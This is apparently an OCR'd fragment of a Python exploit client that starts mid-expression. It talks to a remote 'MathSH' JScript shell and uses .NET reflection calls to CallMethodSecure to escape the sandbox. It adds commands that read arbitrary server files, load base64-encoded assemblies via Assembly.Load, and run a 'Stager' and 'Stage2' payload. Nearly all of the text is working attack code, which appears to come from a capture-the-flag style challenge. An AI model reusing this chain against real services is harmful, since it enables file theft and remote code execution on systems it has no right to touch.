 ```python  
     __global__.JScriptRunner.JScriptUtils.GetMethod(  
        __global__.JScriptRunner.JScriptUtils.FindType("JScriptRunner.JScriptUtils", true),   
        "CallMethodSecure",   
        true,   
        true,   
        true,  
        array({call_args})  
     ),  
     null,  
     array({call_args})  
   )  
   '''.replace("\n", "").replace(" ", "")

session = PromptSession(lexer=PygmentsLexer(CSharpLexer))  
handle = lambda x: x  
while True:  
   try:  
       out = r.recvuntil("MathSH> ", drop=True).decode()  
       print(handle(out).strip())  
   except EOFError:  
       r.stream()  
       break

   inp = preprocess(session.prompt("$ "))

   handle = lambda x: x  
   if inp.startswith("dumpstr "):  
       inp = inp[8:]  
       inp = f'__global__.System.IO.File.ReadAllText(__global__.System.Convert.ToString({inp}))'  
   if inp.startswith("call "):  
       pass  
   if inp.startswith("dumpbin "):  
       inp = inp[8:]  
       handle = save_bytes  
   if inp.startswith("load "):  
       fname = inp[5:]  
       with open(fname, "rb") as f:  
           data = base64.b64encode(f.read()).decode()  
       inp = call_secure('System.Reflection.Assembly', 'Load', f'__global__.System.Convert.FromBase64String("{data}")')  
   if inp.startswith("callsecure "):  
       inp = call_secure(*inp.split()[1:])  
   if inp == "stager":  
       with open("Stager.dll", "rb") as f:  
           data = base64.b64encode(f.read()).decode()  
       inp = call_secure('System.Reflection.Assembly', 'Load', f'__global__.System.Convert.FromBase64String("{data}")')  
   if inp == "stage2":  
       with open("Stage2.dll", "rb") as f:  
           data = base64.b64encode(f.read()).decode()  
       inp = call_secure('Stager.Stager', 'Run', 'this', f'__global__.System.Convert.FromBase64String("{data}")')

   r.sendline(inp)  
```
